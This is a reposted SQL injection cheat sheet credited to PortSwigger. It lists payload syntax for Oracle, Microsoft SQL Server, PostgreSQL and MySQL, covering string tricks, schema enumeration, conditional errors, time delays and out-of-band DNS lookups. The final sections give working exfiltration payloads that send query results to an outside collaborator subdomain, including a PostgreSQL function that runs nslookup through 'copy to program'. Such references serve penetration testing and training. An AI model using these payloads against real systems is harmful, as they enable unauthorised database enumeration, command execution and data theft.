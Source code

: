 From: https://portswigger.net/web-security/sql-injection/cheat-sheet

SQL injection cheat sheet

## String concatenation
Oracle 	      'foo'||'bar' <br />
Microsoft 	  'foo'+'bar' <br />
PostgreSQL  	'foo'||'bar' <br />
MySQL 	      'foo' 'bar' [Note the space between the two strings] <br />
              CONCAT('foo','bar') <br />

## Substring
Oracle 	    SUBSTR('foobar', 4, 2) <br />
Microsoft 	SUBSTRING('foobar', 4, 2) <br />
PostgreSQL 	SUBSTRING('foobar', 4, 2) <br />
MySQL 	    SUBSTRING('foobar', 4, 2) <br />

## Comments
Oracle 	    --comment <br />
Microsoft 	--comment <br />
            /*comment*/ <br />
PostgreSQL 	--comment <br />
            /*comment*/ <br />
MySQL 	    #comment <br />
            -- comment [Note the space after the double dash] <br />
            /*comment*/ <br />

## Database version
Oracle 	    SELECT banner FROM v$version <br />
            SELECT version FROM v$instance <br />
Microsoft 	SELECT @@version <br />
PostgreSQL 	SELECT version() <br />
MySQL 	    SELECT @@version <br />

## Database contents
Oracle    	SELECT * FROM all_tables <br />
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' <br />
Microsoft 	SELECT * FROM information_schema.tables <br />
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' <br />
PostgreSQL 	SELECT * FROM information_schema.tables <br />
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' <br />
MySQL 	    SELECT * FROM information_schema.tables <br />
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' <br />

## Conditional errors
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual <br />
Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END <br />
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL 	    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
Oracle      Does not support batched queries.
Microsoft 	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE
MySQL 	    QUERY-1-HERE; QUERY-2-HERE

Note
With MySQL, batched queries typically cannot be used for SQL injection. 
However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle 	    dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 	    SELECT sleep(10)

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL 	    SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
            
## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. 
To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that 
you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

**Oracle** 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup.
The vulnerability has been patched but there are many unpatched Oracle installations in existence:
                     SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
                    SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')

**Microsoft** 	    exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
**PostgreSQL** 	    copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
**MySQL**          	The following techniques work on Windows only:
                    LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
                    SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
                    
## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. 
To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack,
and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

**Oracle** 	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
**Microsoft** 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
**PostgreSQL** 	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();

**MySQL** 	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
